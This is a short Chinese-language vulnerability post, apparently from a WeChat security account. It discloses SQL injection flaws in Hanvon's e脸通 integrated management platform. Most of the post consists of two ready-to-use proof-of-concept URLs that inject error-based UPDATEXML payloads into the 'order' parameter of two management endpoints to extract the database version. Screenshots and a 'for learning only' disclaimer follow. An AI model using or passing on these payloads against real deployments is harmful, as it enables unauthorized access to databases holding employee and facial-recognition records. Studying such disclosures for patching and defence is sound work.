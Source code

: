 #  汉王e脸通综合管理平台SQL注入漏洞  
安全透视镜  网络安全透视镜   2025-07-07 13:52  
  
queryManyPeopleGroupList接口SQL注入  
  
POC:  
```
/manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4yghbW9UzIgH1zjlurthTKiaqb6ibicXZcbTrFo4sfYqG0SgeekKxTTDC8jWqibH3Bm1KbMgFSwSAkow/640?wx_fmt=png&from=appmsg "")  
  
  
getGroupEmployee  SQL注入  
```
/manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4yghbW9UzIgH1zjlurthTKQib5vmZYXlPfqr0Io6PEicergFuDtBVW09sjaU4GaZbQPwtUhn0wyFDg/640?wx_fmt=png&from=appmsg "")  
  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
  
